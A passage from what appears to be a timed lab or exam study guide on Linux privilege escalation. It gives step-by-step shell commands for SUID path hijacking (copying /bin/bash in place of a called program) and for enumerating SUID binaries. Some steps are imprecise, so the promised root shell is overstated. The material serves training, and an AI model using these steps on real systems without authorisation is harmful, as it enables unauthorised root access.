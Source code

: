 #### **Scenario 2: SUID Binary with Path Hijacking**
**Given:** Custom SUID binary that calls another program
**Your Job:** Exploit path vulnerability to escalate privileges
**Time Limit:** 8-10 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Identify vulnerable binary (1 minute)
ls -la | grep "s"
# Find SUID binaries

# Step 2: Analyze program behavior (2 minutes)
strings vulnerable_binary
# Look for external program calls

# Step 3: Test original functionality (1 minute)
./vulnerable_binary
# Understand normal behavior

# Step 4: Create malicious replacement (2 minutes)
# Identify what program is called
# Create replacement in same directory
cp /bin/bash called_program_name

# Step 5: Execute exploit (2 minutes)
./vulnerable_binary
# Should result in root shell
```

#### **Scenario 3: Finding Hidden SUID Binaries**
**Given:** Need to find less obvious SUID binaries on system
**Your Job:** Comprehensive enumeration and exploitation
**Time Limit:** 12-15 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Comprehensive SUID search (3 minutes)
find / -type f -perm -4000 2>/dev/null > suid_list.txt
cat suid_list.txt
# Create list for systematic analysis

# Step 2: Focus on unusual locations (4 minutes)
find /home /tmp /opt /var -type f -perm -4000 2>/dev/null
# Check non-standard directories where custom binaries hide

# Step 3: Analyze each candidate (4 minutes)
for binary in $(cat suid_list.txt); do
    echo "=== $binary ==="
    ls -la "$binary"
    strings "$binary" | head -10
done
# Systematic analysis of all findings

# Step 4: Exploit most promising target (4 minutes)
# Based on analysis, exploit the most vulnerable binary
```
